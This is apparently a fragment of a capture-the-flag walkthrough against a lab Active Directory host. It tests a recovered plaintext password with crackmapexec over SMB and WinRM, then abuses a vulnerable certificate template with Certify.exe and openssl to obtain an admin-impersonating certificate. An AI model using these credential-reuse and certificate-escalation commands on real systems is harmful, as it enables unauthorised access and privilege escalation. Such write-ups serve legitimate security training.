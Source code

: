 Found the password for Ryan.Cooper from SQL logs:
![](attachment/447b006b737daaa5b25d9a74965ad906.png)
Checking with cme if it is valid:
```
cme smb 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 --shares
```
![](attachment/b4809af026d3034ddf55b6def5166ae1.png)
Checking with winrm:
```
cme winrm 10.10.11.202 -u ryan.cooper -p NuclearMosquito3
```
![](attachment/ac6605b27d4b17656b1f5f86fe84e775.png)
Now using winrm to get a shell and using certify.exe:
![](attachment/6171de1e0d49e6f8dba094eea6eaab67.png)
Now exploiting this vulnerability:
`Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin`
We get back a certificate. Saving it in cert.pem and executing:
`openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
Now we get a certificate cert.pfx
